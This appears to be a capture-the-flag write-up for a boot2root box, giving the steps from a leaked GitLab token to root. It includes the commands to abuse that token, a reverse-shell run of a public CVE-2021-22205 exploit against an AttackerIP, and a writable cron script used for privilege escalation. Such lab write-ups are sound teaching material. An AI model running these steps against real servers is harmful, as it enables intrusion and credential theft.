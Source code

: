 # Brief Solution

## Initial Foothold
1. Check public projects by browsing to `http://boot2root.ihack.sibersiaga.my/explore`, found ERMS repo with Personal Access Token leaked in gitlab.sh file owned by GitLab user `dev`. 
2. Abuse Personal Access Token to check for the GitLab version `curl --header "PRIVATE-TOKEN: Personal_Access_Token_Here" http://boot2root.ihack.sibersiaga.my/api/v4/version`
3. The return version is vulnerable to CVE-2021-22205, exploited to get OS-level privilege as `git` user onto the server.
4. Getting reverse shell with any [public exploit](https://github.com/faisalfs10x/GitLab-CVE-2021-22205-scanner/blob/main/GitLab-revshell.py) `python3 GitLab-revshell.py -u http://boot2root.ihack.sibersiaga.my -l AttackerIP -p AttackerPort`. Make sure to use your VPS as the AttackerIP so that it is reachable from the target server, or use Ngrok as an alternative.
## Low Priv User
1. Check private GitLab repo owned by GitLab user `dev` by abusing PRIVATE-TOKEN with `curl --header "PRIVATE-TOKEN: Personal_Access_Token_Here" http://boot2root.ihack.sibersiaga.my/api/v4/projects | jq`
2. Found private repo internal-dev-system. Git clone that private repo and discovered server credential of the `dev` user in the usertable.sql file. `git clone http://oauth2:Personal_Access_Token_Here@boot2root.ihack.sibersiaga.my/dev/internal-dev-system.git`
3. Escalate to the `dev` user onto the server with the discovered credential.
## Priv Escalation
1. Check for local privilege escalation vectors. Discovered that crontab is executing a `devscript.sh` script in /opt and it's running as root privilege for every 1 minute.
2. Read the `devscript.sh` script and found that `dev` user could write any python3 script in the `dev` home directory. 
3. Abusing the crontab by creating any python3 script such as executing `/bin/bash` as SUID or python3 reverse shell/backdoor.
